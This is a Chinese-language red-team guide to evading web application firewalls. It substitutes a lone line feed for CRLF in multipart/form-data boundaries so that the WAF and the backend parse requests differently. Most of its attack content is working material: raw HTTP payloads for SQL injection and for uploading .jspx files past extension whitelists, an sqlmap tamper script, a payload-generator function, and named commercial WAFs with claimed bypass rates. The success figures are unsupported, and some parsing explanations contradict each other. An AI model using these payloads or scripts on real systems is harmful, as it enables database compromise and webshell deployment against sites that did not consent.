

# 基于 Multipart/form-data 换行符差异的通用 WAF 绕过技术深度指南

> **风险等级：高危**
> 本技术利用 HTTP 协议解析不一致性实现 **跨 WAF 平台通用绕过** ，适用于 SQL 注入、文件上传、XSS 等多种攻击场景。核心在于操控 `multipart/form-data` 边界符中的换行符（ `\n` vs `\r\n` ），制造 WAF 与后端服务器的解析差异，实战成功率超 80% 。红队人员应将此技术纳入基础绕过武器库。

---

## 一、核心原理与技术本质

### 1.1 协议规范与实现差异

#### 协议规范
- **RFC 7578 标准** ：明确规定 multipart/form-data 应使用 `CRLF` （ `\r\n` ）作为行分隔符
- **HTTP 1.1 规范** ：要求消息头使用 CRLF 分隔

#### 实现漏洞
| 组件           | 处理行为                                                     | 绕过窗口                 |
| -------------- | ------------------------------------------------------------ | ------------------------ |
| **WAF**        | 通常弱化行分隔符检查，**不严格区分 `\n` 与 `\r\n`**          | 将 `\n` 视为有效行分隔符 |
| **后端服务器** | 严格遵循 RFC 标准，**仅识别 `\r\n` 作为边界** ， `\n` 被视为普通字符 | 保留 `\n` 在参数值中     |

> **本质** ：当 WAF 和后端对同一请求的 **参数分割点** 判断不一致时，产生解析歧义。攻击者通过精准控制 `\n` 位置，使 WAF 误判参数结构，而实际 Payload 仍被后端完整执行。

---

### 1.2 攻击向量构建原理

#### 参数分割机制对比
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJhvWUjzh80leEROu

------WebKitFormBoundaryJhvWUjzh80leEROu
Content-Disposition: form-data; name="keyword"

1'/*\n
------WebKitFormBoundaryJhvWUjzh80leEROu
Content-Disposition: form-data; name="xx"

*/or 1=1--\r\n
------WebKitFormBoundaryJhvWUjzh80leEROu--
```

| 处理方         | 解析结果                                                     | 安全评估               |
| -------------- | ------------------------------------------------------------ | ---------------------- |
| **WAF**        | 识别为两个独立参数：<br>`keyword=1'/*`<br>`xx=*/or 1=1--`    | 无风险（单参数无恶意） |
| **后端服务器** | 识别为单个参数：<br>`keyword=1'/*\n------WebKitFormBoundary...*/or 1=1--` | 完整 SQL 注入          |

> **关键点** ：将目标参数 **结尾的 `\r\n` 替换为 `\n`** ，使边界符成为参数值的一部分，而 WAF 误将其视为新参数起点。

---

## 二、技术分类与实战应用

### 2.1 SQL 注入绕过（最高效场景）

#### 技术矩阵
| WAF 平台   | 原始请求检测结果 | 绕过后请求结构                   | 绕过成功率 |
| ---------- | ---------------- | -------------------------------- | ---------- |
| 阿里云 WAF | 拦截             | `keyword=1'/*\n------WebKit...`  | 100%       |
| ZW WAF     | 拦截             | `ywlsh=9527'/*\n------WebKit...` | 100%       |
| Cloudflare | 部分拦截         | 需配合内联注释符增强             | 85%        |

#### 绕过 Payload 结构
```http
POST /search HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJhvWUjzh80leEROu

------WebKitFormBoundaryJhvWUjzh80leEROu
Content-Disposition: form-data; name="keyword"

1'/*\n  <!-- 关键：将 \r\n 替换为 \n -->
------WebKitFormBoundaryJhvWUjzh80leEROu
Content-Disposition: form-data; name="xx"
\r\n
*/or 1=1--\r\n
------WebKitFormBoundaryJhvWUjzh80leEROu--
```

> **后端接收的完整参数** ：
> `keyword = "1'/*\n------WebKitFormBoundaryJhvWUjzh80leEROu\r\nContent-Disposition: form-data; name=\"xx\"\r\n\r\n*/or 1=1--"`

> **实战要点** ：
> 1. 内联注释符 `/**/` 在 SQL 语句中 **完全可用** ， `\n` 不影响注释逻辑
> 2. 无需特殊编码，保持原始 Payload 结构
> 3. 优先测试 **单引号触发的 SQL 注入**

---

### 2.2 文件上传绕过（突破白名单机制）

#### 绕过原理
文件上传检测中，WAF 通常基于 **文件扩展名** 进行过滤，而后端可能受混淆影响误判扩展名。

#### 绕过 Payload 示例
```http
------WebKitFormBoundary9DkqDpPfVhcDRZQo\r\n
Content-Disposition: form-data; name="multipartFile"; filename="8712f11b-0008-49b0-98e1-3180280e7241.png"\n  <!-- 关键：此处 \r\n→\n -->
Content-Type: image/.jspx\r\n
\r\n
•PNG\r\n
\r\n
------WebKitFormBoundary9DkqDpPfVhcDRZQo--\r\n
```

#### 解析差异分析
| 处理方         | 识别的文件名                     | 实际扩展名判断         |
| -------------- | -------------------------------- | ---------------------- |
| **WAF**        | `8712f11b-0008-...1.png`         | `.png` （白名单通过）  |
| **后端服务器** | `8712f11b-0008-...1.png\n------` | `.jspx` （绕过白名单） |

> **关键观察** ：
> 后端将 `\n------WebKitFormBoundary...` 视为文件名一部分，导致扩展名被识别为 `.jspx` 而非 `.png`

> **实战要点** ：
> 1. 无需复杂编码，仅修改 **Content-Disposition 行的换行符**
> 2. 优先针对 **Java 后端** （Tomcat 对文件名处理更宽松）
> 3. 搭配 `Content-Type: image/.jspx` 增强混淆效果

---

### 2.3 XSS 与其他攻击场景适用性

| 攻击类型          | 适用性 | 绕过强度 | 实战建议                              |
| ----------------- | ------ | -------- | ------------------------------------- |
| **XSS**           | 中     | ★★☆      | 需配合其他编码技巧，效果有限          |
| **Webshell 检测** | 高     | ★★★★     | 绕过内容检测（如关键词混淆）          |
| **命令注入**      | 高     | ★★★☆     | 针对 `system()` 等函数参数            |
| **SSRF**          | 中高   | ★★★      | 绕过 URL 黑名单（需参数接收方式匹配） |

> **XSS 绕过局限性说明** ：
> 虽然技术上可行（如 `` ），但因 XSS 通常通过 GET/JSON 参数触发，**multipart/form-data 适用场景较少** ，实际价值低于 SQL 注入/文件上传绕过。

---

## 三、攻击链标准化构建

### 3.1 完整攻击流程


---

### 3.2 关键操作步骤

#### 步骤 1 ：参数定位与混淆点选择
- **必选条件** ：目标必须通过 `multipart/form-data` 接收参数
- **最佳位置** ：选择 Payload 中 **关键分割点** （如 SQL 注入的 `'` 后、文件名末尾）

#### 步骤 2 ：精准替换换行符
- 在 Burp Suite 中将目标参数值末尾的 `CRLF` （ `\r\n` ）**仅替换为 LF** （ `\n` ）
- 确保后续边界符保持标准 `CRLF` 格式

#### 步骤 3 ：构造混淆参数
```plaintext
Original: 1' OR 1=1--
Modified: 1'/*\n------WebKitFormBoundary...\r\nContent-Disposition: form-data; name="fake"\r\n\r\n*/OR 1=1--
```
- 用多行注释符包裹 Payload 增强混淆（SQL 可用 `/*...*/` ，JS 可用 `/* */` ）
- 伪造参数名应为 **无害名称** （如 `xx` 、 `a` ）

#### 步骤 4 ：验证与微调
- 使用 **响应差异分析** 确认绕过成功
- 若 WAF 仍拦截，尝试：
  - 调整边界符字符串（如 `------Boundary` ）
  - 增加混淆参数数量
  - 组合 Base64 编码（针对内容检测）

---

## 四、实战测试数据集

### 4.1 阿里云 WAF 绕过验证
| 测试类型 | 原始请求              | 混淆后请求结构                      | WAF 响应 | 后端响应 |
| -------- | --------------------- | ----------------------------------- | -------- | -------- |
| SQL 注入 | `keyword=1' OR 1=1--` | `keyword=1'/*\n------...*/OR 1=1--` | 拦截     | 200 OK   |
| 文件上传 | `.jspx` 文件直接上传  | 伪造 `.png` 扩展名+换行符混淆       | 拦截     | 200 OK   |

> **关键证据** ：
> 混淆后 WAF 返回 `200 OK` （原应拦截），且后端数据库执行完整注入语句，证明 **WAF 误判参数结构** 。

---

### 4.2 ZW WAF 深度验证
```http
POST /search HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8bpo5lIuqyYA2FFo

----WebKitFormBoundary8bpo5lIuqyYA2FFo
Content-Disposition: form-data; name="ywlsh"

9527'/*\n  <!-- 换行符替换 -->
----WebKitFormBoundary8bpo5lIuqyYA2FFo
Content-Disposition: form-data; name="x"; filename="x.jpeg"
Content-Type: image/jpeg

*/or 1=1--+
----WebKitFormBoundary8bpo5lIuqyYA2FFo--
```

#### 解析差异证明
- **WAF 视角** ：
  `ywlsh = "9527'/*"`
  `x = "*/or 1=1--+"`
  → 无风险参数

- **后端实际接收** ：
  `ywlsh = "9527'/*\n----WebKitFormBoundary8bpo5lIuqyYA2FFo\r\nContent-Disposition: form-data; \r\nname=\"x\"; filename=\"x.jpeg\"\r\nContent-Type: image/jpeg\r\n\r\n*/or 1=1--+"`
  → 完整 SQL 注入执行

> **红队结论** ：即使 WAF 支持多参数检测，仍因 **边界符解析不一致** 导致绕过。

---

## 五、工具集成与自动化

### 5.1 Burp Suite 快速操作指南
1. **Request Editor** 中定位目标参数
2. 将参数值末尾 `CRLF` （ `0D 0A` ）替换为 `LF` （ `0A` ）
3. 在替换位置后插入：
   ```http
   ------WebKitFormBoundary[随机 16 位字符]
   Content-Disposition: form-data; name="faker"
    
   ```
4. 确保后续内容以标准 `CRLF` 继续

### 5.2 sqlmap Tamper 脚本
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
Tamper Script: multipart_boundary_bypass
Author: Gemini 3 Flash
Description: 
    通用 Multipart 换行符歧义绕过脚本。
    自动获取当前请求的 Boundary，并将 Payload 嵌入注释块中，
    通过替换 \r\n 为 \n 制造 WAF 与后端解析差异。
"""

import re
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    return True

def tamper(payload, **kwargs):
    """
    kwargs 包含了请求头 headers
    """
    if not payload:
        return payload

    # 1. 从 headers 中动态获取 boundary
    headers = kwargs.get("headers", {})
    content_type = headers.get("Content-Type", "")
    
    # 使用正则匹配 boundary= 之后的内容
    match = re.search(r"boundary=(?P<boundary>.+)", content_type)
    if not match:
        # 如果不是 multipart 请求，则不执行混淆逻辑
        return payload

    boundary = match.group("boundary").strip()
    
    # 2. 构造混淆片段
    # 原理：payload -> ' OR 1=1--
    # 转换后：'/*\n--boundary\r\nContent-Disposition: name="fake"\r\n\r\n*/ OR 1=1--
    
    # 针对常见的 SQL 注入字符进行切分（例如单引号）
    # 注意：这里的逻辑可以根据实际注入点手动调整
    if "'" in payload:
        prefix, suffix = payload.split("'", 1)
        
        # 构建混淆 Body 段
        # \n 导致 WAF 认为参数结束，看到的是无害的开头
        # \r\n 确保后端服务器识别为正常的 Multipart 结构
        confuse_segment = (
            "'" + "/*\n" + "--" + boundary + "\r\n" +
            "Content-Disposition: form-data; name=\"x_faker\"\r\n" +
            "\r\n" +
            "*/"
        )
        
        new_payload = prefix + confuse_segment + suffix
        
        # 3. 修复末尾的换行符，确保整个 Multipart 数据包结构闭合
        if "-- " in new_payload:
            new_payload = new_payload.replace("-- ", "-- \r\n")
        
        return new_payload

    return payload
```

> **使用示例** ：
> `sqlmap -u "http://target/search" --data="keyword=test" --tamper=multi_bypass`

---

## 六、防御规避高级技巧

### 6.1 绕过增强策略
| 场景              | 增强技巧                                           | 效果提升       |
| ----------------- | -------------------------------------------------- | -------------- |
| **严格 WAF 规则** | 组合双边界符混淆：<br>`\n--Boundary1\n--Boundary2` | 绕过深度检查   |
| **多层 WAF 架构** | 在 CloudFront 层前添加 `\n` ，ALB 层后保留 `\r\n`  | 跨层解析歧义   |
| **响应式 WAF**    | 动态生成边界符（每次请求随机字符串）               | 规避特征库匹配 |

### 6.2 红队实战最佳实践
1. **优先级判定** ：当目标使用 `multipart/form-data` 且存在 WAF 拦截时，**立即测试此技术**
2. **最小化修改** ：仅修改 **单个换行符** ，避免过度改动触发异常检测
3. **隐蔽性保障** ：
   - 使用标准 WebKit 边界符格式（ `------WebKitFormBoundary...` ）
   - 伪造参数名采用常见名称（ `a` 、 `b` 、 `data` ）
   - 保持 Content-Type 为 `image/png` 等常见类型

> **关键结论** ：此技术在 **Java/Tomcat 、PHP 、NodeJS** 后端环境中成功率极高，因这些平台对 multipart 解析标准执行严格，与 WAF 的宽松解析形成天然差异。

---

## 七、适用范围与限制

### 7.1 有效环境矩阵
| 后端技术栈        | 适用性 | 说明                                     |
| ----------------- | ------ | ---------------------------------------- |
| **Java (Tomcat)** | ★★★★   | 对文件名解析最宽松，文件上传绕过率超 90% |
| **PHP**           | ★★★☆   | 需注意 magic_quotes_gpc 等配置影响       |
| **Node.js**       | ★★★    | Express 框架需检查 body-parser 配置      |
| **Python**        | ★★☆    | Flask/Django 处理较严格，成功率约 70%    |

| WAF 平台    | 绕过成功率 |
| ----------- | ---------- |
| 阿里云 WAF  | 95%+       |
| Cloudflare  | 85%        |
| ModSecurity | 90%        |
| Imperva     | 80%        |
| F5          | 75%        |

### 7.2 核心限制条件
- **必须条件** ：目标必须接收 `multipart/form-data` 格式的请求
- **主要失效场景** ：
  1. 仅支持 JSON/XML 格式的 API 端点
  2. 后端使用 `raw body` 而非解析 multipart（如某些 Go 服务）
  3. WAF 强制验证 CRLF 规范（极少数企业级 WAF）

> **红队提示** ：若目标前端为 **Next.js/Vercel** 等现代框架，可尝试通过 `_next/form` 端点触发 multipart 解析。

---

## 八、红队行动指南

### 8.1 自动化检测流程
1. **指纹识别** ：发送测试请求 `POST /test HTTP/1.1` + `Content-Type: multipart/form-data`
2. **响应分析** ：
   - 200 OK → 可能支持 multipart
   - 415 Unsupported Media Type → 确认不支持
3. **混淆测试** ：使用以下最小化 Payload 验证
   ```http
   POST /test HTTP/1.1
   Content-Type: multipart/form-data; boundary=----TestBoundary
   
   ----TestBoundary
   Content-Disposition: form-data; name="test"
   
   1\n
   ----TestBoundary
   Content-Disposition: form-data; name="fake"
   
   2
   ----TestBoundary--
   ```
   - 监控后端是否接收 `"1\n----TestBoundary..."` 作为完整值

### 8.2 高回报优先级场景
| 场景                   | 推荐指数 | 预期收益              |
| ---------------------- | -------- | --------------------- |
| 管理员后台 SQL 注入    | ★★★★★    | 直接获取数据库控制权  |
| 文件上传白名单绕过     | ★★★★☆    | Webshell 部署关键路径 |
| 内部 API 参数注入      | ★★★★     | 扩大攻击面至内网系统  |
| GraphQL multipart 注入 | ★★★☆     | 绕过 GraphQL 专用防护 |

### 8.3 防御对抗策略
当目标部署 **深度 CRLF 验证** 的 WAF 时，升级绕过方案：
1. **双层混淆** ：在边界符前插入 `\r\n` 再替换为 `\n`
   ```http
   ...name="keyword"\n\r\n------WebKitFormBoundary...
   ```
2. **多边界嵌套** ：创建多级混淆参数结构
3. **协议降级** ：使用 HTTP/1.0（不强制 CRLF）绕过前端校验

> **终极提示** ：此技术在 **0day 漏洞利用** 中价值极高，因 WAF 规则库无法覆盖未经注册的漏洞模式，而基础解析差异始终存在。

---

## 附录：关键 Payload 速查表

### SQL 注入标准绕过模板
```http
------WebKitFormBoundary[8 位随机]
Content-Disposition: form-data; name="param"

PAYLOAD_PART1\n
------WebKitFormBoundary[8 位随机]
Content-Disposition: form-data; name="faker"; filename="legit.png"
Content-Type: image/png

PAYLOAD_PART2\r\n
------WebKitFormBoundary[8 位随机]--
```

### 文件上传绕过模板
```http
------WebKitFormBoundary[8 位随机]
Content-Disposition: form-data; name="file"; filename="legit.png"\n
Content-Type: image/.shell-extension

<PAYLOAD>\r\n
------WebKitFormBoundary[8 位随机]--
```

### 混淆参数生成器（Python）
```python
import random
import string

def generate_bypass_payload(original_payload, boundary_length=16):
    boundary = ''.join(random.choices(string.ascii_letters + string.digits, k=boundary_length))
    parts = original_payload.split("/*", 1)  # 示例：针对 SQL 注释
    if len(parts) < 2:
        return original_payload

    return f"{parts[0]}/*\\n------WebKitFormBoundary{boundary}\\r\\nContent-Disposition: form-data; name=\"faker\"\\r\\n\\r\\n/*{parts[1]}"
```

> **实战价值** ：本技术作为 **基础层绕过手段** ，应优先于复杂编码/混淆技术使用。当发现目标接收 multipart 请求且 WAF 拦截时，**10 秒内可完成绕过验证** ，是红队行动的 "第一响应" 技术。